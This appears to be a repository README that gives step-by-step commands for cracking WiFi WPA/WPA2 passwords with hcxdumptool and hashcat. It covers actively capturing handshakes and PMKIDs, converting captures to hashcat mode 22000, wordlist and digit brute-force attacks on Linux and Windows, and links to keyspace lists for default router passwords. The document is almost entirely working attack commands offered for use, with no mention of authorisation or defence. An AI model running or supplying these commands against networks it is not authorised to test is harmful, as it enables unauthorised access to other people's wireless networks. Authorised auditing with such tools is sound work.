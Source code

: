 # WiFi-Cracking-with-HashCat
Cat: Security

### "WiFi WPA/WPA2 vs hashcat and hcxdumptool" by David Bombal
https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

## COMMANDS

### Stop Network Manager and WPA Supplicant Services
```
sudo systemctl stop NetworkManager && sudo systemctl stop wpa_supplicant
```

### Run hcxdumptool to capture WLAN information
```
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=1
```

### Restart Network Manager and WPA Supplicant Services
```
sudo systemctl start wpa_supplicant && sudo systemctl start NetworkManager
```

### Convert PCAPNG file to hash file
```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

### Capture MAC addresses
```
hcxdumptool --do_rcascan -i wlan0
```

### Run Hashcat with a wordlist
```
hashcat -m 22000 hash.hc22000 wordlist.txt
```
### Run Hashcat with Brute Force
```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```
## Windows:
```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```
```
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```


Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table
